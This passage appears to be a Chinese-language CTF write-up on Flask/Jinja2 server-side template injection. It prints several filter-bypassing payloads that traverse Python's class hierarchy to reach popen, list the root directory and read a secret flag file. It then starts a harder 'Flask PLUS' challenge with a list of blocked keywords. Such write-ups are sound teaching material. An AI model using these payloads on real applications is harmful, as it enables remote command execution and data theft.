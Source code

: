 payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174716-305bbc9c-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174716-305bbc9c-bd3e-1.png)

眼又花了，但我们的目的很明显，就是要执行命令，于是直接搜索 “popen” 就可以了：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174717-30f4321a-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174717-30f4321a-bd3e-1.png)

由于又是一个 dict 类型，我们调用的时候又可以使用字符串拼接，绕过 open 过滤。

后面顺理成章的，我们将命令字符串传入，实例化这个函数，然后直接调用 read 方法就可以了。

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('ls /').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174718-318fa952-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174718-318fa952-bd3e-1.png)

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('cat /Th1s__is_S3cret').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-3222536a-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-3222536a-bd3e-1.png)

### [NCTF2018]Flask PLUS

看到又是 Flask，后面又加了 PLUS，想必内容肯定没变，应该是过滤内容增加了。

打开题目康康，果然还是 demo，随便造一个 404，还是那个界面。

直接拿上一道题的 payload 去找所有的类，果然还是那么多。找到 `os._wrap_close` 类，打一发上次的 payload，结果炸了：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-329c288e-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-329c288e-bd3e-1.png)

也就是说，这里更新了过滤的内容，需要 bypass。

我们来探测了一下，发现这次又加了一些过滤：

```
__init__
file
__dict__
__builtins__
__import__
getattr
os


```

